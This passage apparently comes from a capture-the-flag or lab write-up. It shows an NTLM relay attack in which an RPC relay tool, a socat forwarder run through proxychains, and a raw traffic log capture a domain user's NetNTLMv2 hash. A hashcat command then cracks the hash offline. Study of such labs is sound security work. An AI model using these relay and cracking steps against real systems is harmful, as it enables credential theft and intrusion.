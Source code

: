 ```
[*] RPC relay server listening on port 9997 ...
[*] IStoragetrigger written: 102 bytes
[*] ServerAlive2 RPC Call
[*] ResolveOxid2 RPC call
[+] Received the relayed authentication on the RPC relay server on port 9997
[*] Connected to RPC Server 127.0.0.1 on port 9999
[+] User hash stolen!

NTLMv2 Client   : AWSJPDC0522
NTLMv2 Username : SHIBUYA\Nigel.Mills
NTLMv2 Hash     : Nigel.Mills::SHIBUYA:1995622f5244d1a0:94de8a8d873c785d9fd1d023ac98f9a7:<REDACTED>
```
Remember to run socat first on attacker machine
```
udo proxychains socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.79.39:9999
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.79.39:9999  ...  OK
> 2025/02/27 06:41:17.000849661  length=116 from=0 to=115
..\v.....t...........................`R.......!4z.....]........\b.+.H`............`R.......!4z....,..l..@E............< 2025/02/27 06:41:18.000070358  length=84 from=0 to=83
..\f.....T............QF...9999...........]........\b.+.H`............................> 2025/02/27 06:41:18.000291453  length=24 from=116 to=139
........................< 2025/02/27 06:41:18.000528213  length=40 from=84 to=123
........(...............................[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.79.39:9999  ...  OK
> 2025/02/27 06:41:19.000198989  length=120 from=0 to=119
..\v\a....x.(..........QF.............`R.......!4z.....]........\b.+.H`....
.......NTLMSSP.......\b.................
.|O....< 2025/02/27 06:41:19.000441744  length=294 from=0 to=293
..\f\a....&............QF...9999...........]........\b.+.H`....
.......NTLMSSP.........8..........Y................F...
.|O....S.H.I.B.U.Y.A.....S.H.I.B.U.Y.A.....A.W.S.J.P.D.C.0.5.2.2.....s.h.i.b.u.y.a...v.l...,.A.W.S.J.P.D.C.0.5.2.2...s.h.i.b.u.y.a...v.l.....s.h.i.b.u.y.a...v.l.\a.\b.....%.......> 2025/02/27 06:41:19.000666000  length=614 from=120 to=733
...\a................
.......NTLMSSP.............@.@.........X.......f.......|...............
.|O......D.x.........&.S.H.I.B.U.Y.A.N.i.g.e.l...M.i.l.l.s.A.W.S.J.P.D.C.0.5.2.2............................TU.S...Z..4,-............%...V..Y9.g.........S.H.I.B.U.Y.A.....A.W.S.J.P.D.C.0.5.2.2.....s.h.i.b.u.y.a...v.l...,.A.W.S.J.P.D.C.0.5.2.2...s.h.i.b.u.y.a...v.l.....s.h.i.b.u.y.a...v.l.\a.\b.....%...........\b.0.0............ ......>...7...`..-.._...K....VF.N.
...................     . .R.P.C.S.S./.1.0...8...4...1.5.2.........F.......J.....%)........P...............&~.....`........\a...............
.............;...#y....< 2025/02/27 06:41:19.000915725  length=32 from=294 to=325
........ ....... ...............[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.79.39:9999  ...  OK
> 2025/02/27 06:41:20.000577111  length=72 from=0 to=71
..\v.....H............QF.............`R.......!4z.....]........\b.+.H`....< 2025/02/27 06:41:20.000797727  length=60 from=0 to=59
..\f.....<............QF...9999.`.........]........\b.+.H`....> 2025/02/27 06:41:21.000016776  length=42 from=72 to=113
........*...............&~.....`........\a.< 2025/02/27 06:41:21.000252301  length=108 from=60 to=167
........l.......T...................\a.1.2.7...0...0...1.[.9.9.9.7.].....
...........""33DDUUUUUU......\a.....%
```
With the NetNTLMv2 hash we got from Nigel.Mills, we can perform offline attack and get the password in plaintext.
```
hashcat nigel.hash /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

```